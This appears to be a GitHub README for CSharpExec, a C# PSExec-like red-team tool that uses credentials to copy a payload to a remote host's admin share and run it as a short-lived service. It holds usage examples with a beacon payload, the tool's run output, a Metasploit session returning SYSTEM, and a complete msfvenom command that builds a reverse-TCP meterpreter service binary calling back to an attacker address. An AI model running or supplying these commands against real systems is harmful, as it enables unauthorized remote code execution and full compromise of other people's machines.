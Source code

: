 # CSharpExec

PSExec, kinda.

This project can use both the current context and credentials to connect to a remote host, copy the payload, and then create and start a service. Once the service is running, it will then remove it. 

## Usage
```
[*] Usage: .\CSharpExec.exe <Host> [<Username>] [<Password>] <Path2Exe>
[*] Example 1: .\CSharpExec.exe 192.168.0.1 Administrator Password123! c:\beacon-svc.exe
[*] Example 2: .\CSharpExec.exe 192.168.0.1 Administrator Password123! c:\beacon-svc.exe C$
[*] Example 3: .\CSharpExec.exe 192.168.0.1 c:\beacon-svc.exe
[*] Example 4: .\CSharpExec.exe 192.168.0.1 c:\beacon-svc.exe C$
```

Like most of this stuff I write, its fairly verbose so it should be obvious(?) if something goes wrong. Heres some example output:
```
[*] Using: \\10.10.11.115\c$
[*] Using credentials: Administrator:Password123!
[*] Attempting to connect to: \\10.10.11.115\c$
[+] Response from share: NO_ERROR
[*] Copying shell-svc.exe to \\10.10.11.115\c$\Y5IuCQ8h
[+] Copied to \\10.10.11.115\c$\Y5IuCQ8h
[*] Attempting to create service: Y5IuCQ8h
[+] Handle for OpenSCManager obtained: 13645056
[+] Handle for CreateService obtained: 13645056
[+] Y5IuCQ8h created!
[*] Attempting to start the service...
[+] Y5IuCQ8h was started!
[*] Session should have returned, uninstalling Y5IuCQ8h
[*] Attempting to remove the service...
[+] Y5IuCQ8h was deleted!
```
As expected, this returns `SYSTEM`:
```
msf5 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.11.119:443 
[*] Sending stage (201283 bytes) to 10.10.11.115
[*] Meterpreter session 7 opened (10.10.11.119:443 -> 10.10.11.115:59263) at 2020-07-26 00:06:05 +0100

meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter > 

```

I borrowed some enums from [this project](https://github.com/malcomvetter/CSExec/blob/master/csexec/Program.cs) which is similar, but takes a different approach. As for the binary I used to get the meterpreter:
```
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.11.119 LPORT=443 -f exe-service -o shell-svc.exe
```
